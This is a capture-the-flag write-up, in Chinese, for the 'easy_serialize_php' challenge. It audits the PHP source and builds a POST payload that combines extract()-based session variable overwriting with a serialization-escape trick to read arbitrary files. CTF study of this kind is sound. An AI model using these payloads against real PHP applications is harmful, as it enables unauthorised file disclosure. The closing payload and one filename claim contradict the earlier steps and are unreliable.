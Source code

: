 # \[安洵杯 2019]easy\_serialize\_php

## \[安洵杯 2019]easy\_serialize\_php

## 考点

* 代码审计
* extract对session进行变量覆盖
* php反序列化逃逸

## wp

给了源码，先搞明白代码的逻辑

filter 函数将 `$img` 中含有的 数组中的元素 替换为 空，正则为 `/php|flag|php5|php4|fl1g/i`

```php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
```

GET传入`f`参数作为`function`，然后给session初始化，看到 `extract($_POST);` 说明有变量覆盖

```php
$function = @$_GET['f'];
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
extract($_POST);
if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}
```

传入`img_path`，如果`img_path`为空，就`base64_encode`字符串`guest_img.png`否则就先`base64_encode` `img_path` 再 sha1 加密

```php
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}
```

然后就是对 session 进行序列化并执行 filter 函数，这里就会存在字符逃逸了

```php
$serialize_info = filter(serialize($_SESSION));
```

最后是对 `$_GET['f']` 的判断，执行不同功能

```php
if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

提示看phpinfo，在里面发现`auto_append_file d0g3_f1ag.php`，说明要看d0g3\_f1ag.php。且`session.serialize_handler`为`php`

![](<../../.gitbook/assets/image (27) (1) (1) (1).png>)

现在的目的很明确，就是要读取`d0g3_f1ag.php`这个文件，利用逃逸使 session 中的 img 字段为 `ZDBnM19mMWFnLnBocA==` 即 `base64_encode(d0g3_f1ag.php)` ，然后在 `show_image` 中读取。

由于 `extract($_POST)` 的存在，可以利用变量覆盖修改 `$_SESSION["user"]`，`$_SESSION['function']` 和 `$function`，或者是在 `_SESSION` 中插入参数

先看一个正常的 session 文件经过序列化之后的结果，user 和 function 字段是可控的 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:10:"show_image";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这里就有两个位置可以逃逸，先看一下 function 这里 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:7:"`<mark style="color:red;">`aphpphp`</mark>`";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

filter 处理之后 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:7:"`<mark style="color:red;">`a";s:3:`</mark>`"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

我们的目标如下，发现只有 function行不通，覆盖掉 img 字段后，无法控制 object 的注入，就考虑结合 user 一起 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:39:"`<mark style="color:red;">`a";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==`</mark>`";s:6:"object";s:6:"inject";}`

变成如下这样 {1} {2} 为可控输入，要注入对象的话，{2} 的内容长度一定会大于 10，所以考虑覆盖掉 `";s:8:"function";s:10:"` ，长度为 23，扩展成 3 或 4 的倍数( 根据 filter 函数)，就是 `";s:8:"function";s:10:"a`

`a:3:{s:4:"user";s:5:"`<mark style="color:red;">`{1}`</mark>`";s:8:"function";s:10:"`<mark style="color:green;">`{2}`</mark>`";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这就变成这个样子 `a:3:{s:4:"user";s:24:"`<mark style="color:red;">`flagflagflagflagflagflag`</mark>`";s:8:"function";s:10:"a{2}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

经过 filter 函数处理

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark>`{2}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

然后就是 {2} 的输入内容，要让 img 字段为 `ZDBnM19mMWFnLnBocA==` 即 `base64_encode(f1ag_a8f7b5e6.php)` ，还要闭合前面的 `"`，那么 {2} 就是 `";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";`

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这样还存在问题，黄色部分的`";` 如何处理，可以结合 php 反序列化在`}`后的数据将直接被丢弃这个特点，直接构造一个结束符。{2} 为 `";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这还有一个问题，这个反序列化之后的数组应该有 3 个元素，这样构造只剩下 2 个，这就需要再加一个元素，随便加即可

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

payload

```
POST
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}&function=show_image
```

![](<../../.gitbook/assets/image (9) (1).png>)

再读取`/d0g3_fllllllag`，payload

```
POST
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}&function=show_image
```

## 小结

1. extract对session进行变量覆盖的条件是`session_start`在`extract`之前，参考[bestphp's revenge](bestphps-revenge.md)。
